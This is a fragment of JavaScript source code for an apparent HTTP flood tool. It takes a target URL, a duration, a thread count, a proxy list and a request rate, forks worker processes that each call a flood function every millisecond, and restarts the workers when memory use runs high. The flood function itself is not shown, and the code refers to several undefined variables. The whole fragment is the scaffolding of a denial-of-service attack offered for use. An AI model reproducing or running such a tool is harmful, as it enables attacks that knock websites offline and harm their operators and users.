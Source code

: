 const target = process.argv[2];
const time = process.argv[3];
const thread = process.argv[4];
const proxyFile = process.argv[5];
const rps = process.argv[6];
if (!/^https?:\/\//i.test(target)) {
	console.error('sent with http:// or https://');
	process.exit(1);
}
proxyr = proxyFile
if (isNaN(rps) || rps <= 0) {
	console.error('number rps');
	process.exit(1);
}
const MAX_RAM_PERCENTAGE = 70;
const RESTART_DELAY = 100;
if (cluster.isMaster) {
  console.log("@CRISXTOP".bgRed);
	for (let counter = 1; counter <= thread; counter++) {
		cluster.fork();
	}
	const restartScript = () => {
        for (const id in cluster.workers) {
            cluster.workers[id].kill();
        }

        console.log('[>] Restarting the script via', RESTART_DELAY, 'ms...');
        setTimeout(() => {
            for (let counter = 1; counter <= args.threads; counter++) {
                cluster.fork();
            }
        }, RESTART_DELAY);
    };

    const handleRAMUsage = () => {
        const totalRAM = os.totalmem();
        const usedRAM = totalRAM - os.freemem();
        const ramPercentage = (usedRAM / totalRAM) * 100;

        if (ramPercentage >= MAX_RAM_PERCENTAGE) {
            console.log('[!] Maximum RAM usage percentage exceeded:', ramPercentage.toFixed(2), '%');
            restartScript();
        }
    };
	setInterval(handleRAMUsage, 5000);
	setTimeout(() => process.exit(-1), time * 1000);
} else {
    setInterval(function() {
        flood()
      }, 1);
    
  }
